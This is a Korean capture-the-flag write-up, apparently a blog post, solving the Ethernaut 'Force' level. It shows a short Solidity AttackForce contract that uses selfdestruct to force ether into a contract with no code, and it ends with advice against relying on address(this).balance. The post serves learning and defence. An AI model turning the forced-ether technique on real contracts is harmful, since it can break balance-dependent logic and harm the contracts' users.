 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 7) Force
date: '2022-01-09 18:31:00'
author: 한성원
tags: ethernaut Force vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 5/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Force contract의 balance를 0보다 크게 만든다면 승리한다.

- - -

## 코드 분석
분석은 주석에!

```solidity
// 코드가 없다...? 롸...? 이것은 무엇인가....
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
- - -
### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Force는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 Force contract의 balance를 0을 초과하게 만드는 것이다.

코드가 없는데 어떻게 Ether를 보내라는 것인가 싶었다.

하지만 contract에 강제로 보낼 수 있는 방법이 존재한다!

바로 [selfdestruct](addlinkhere)이다. 

selfdestruct의 개념을 안다면 이 문제는 매우 쉽게 풀릴 수 있다.

우리가 Force의 balance를 0을 넘게하기 위한 시나리오는 이렇다.
1. ForceAttack contract에 selfdestruct을 사용하는 function과 value를 조금 넣어 deploy한다.
2. Deploy한 contract에서 selfdestruct를 실행시킨다. selfdestruct의 parameter는 Force contract의 주소이다.
3. Force contract는 강제로 Ether를 받게된다.

주석을 통해 ForceAttack contract를 같이 분석 해보자!
최대한 간단하게 만들어보았다.
```solidity
contract AttackForce {
    // payable을 사용해 Ether를 받을 수 있게 한다.
    constructor () public payable{}
    
    // Force contract의 주소를 넣어 selfdestruct한다.
    function attack(address payable _forceAddress) public {
        selfdestruct(_forceAddress);
    }
}
```
이 코드는 remix IDE에서 만들고 배포한다. 배포할때 value를 0을 초과하게 설정해준다. 이후 Force의 주소와 함께 attack() 실행해주면 공격이 완료된다.

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
selfdestruct는 항상 조심해야한다. attacker를 통해 공격을 받는 경우도 있지만 contract안에 selfdestruct를 사용하고 실수하여 문제가 일어난 적도 있다. 그렇기 때문에 selfdestruct를 꼭 필요할때 이외에는 사용을 피해보자! 또한 address(this).balance와 같이 selfdestruct에 의해 공격받을 수 있는 것은 사용을 피하도록하자.

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DelegateCall 취약점: 

```toc

```